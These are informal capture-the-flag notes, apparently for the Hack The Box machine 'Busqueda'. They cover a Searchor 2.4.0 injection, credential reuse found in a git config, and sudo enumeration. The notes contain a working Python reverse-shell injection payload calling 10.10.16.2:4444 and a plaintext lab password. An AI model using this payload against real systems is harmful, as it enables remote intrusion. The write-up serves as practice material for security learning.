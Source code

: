 nmap indicates that port 80 is open

after adding to /etc/hosts file we have this:

![](20230517200314.png)

injection attack maybe?

it says that it uses searchor 2.4.0

https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-


```
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.2',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

got a shell

![](20230517205841.png)

https://github.com/carlospolop/PEASS-ng/releases/download/20230514-85dabdc9/linpeas.shhttps://github.com/carlospolop/PEASS-ng/releases/download/20230514-85dabdc9/linpeas.sh

69d74a3bcb733e6212dd32f6857e02d7

$ cat config
cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
$ 

logged into the domain gitea.searcher.htb

![](20230517213922.png)

password reuse is popular: jh1usoih2bkjaspwe92

```
$ sudo -l
sudo -l
[sudo] password for svc: jh1usoih2bkjaspwe92

Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *

```

$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps

sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS       PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   4 months ago   Up 2 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   4 months ago   Up 2 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db


# learning

1. read information specific to the box
2. check your user, user.txt is in the home directory
3. look at git config
4. password reuse



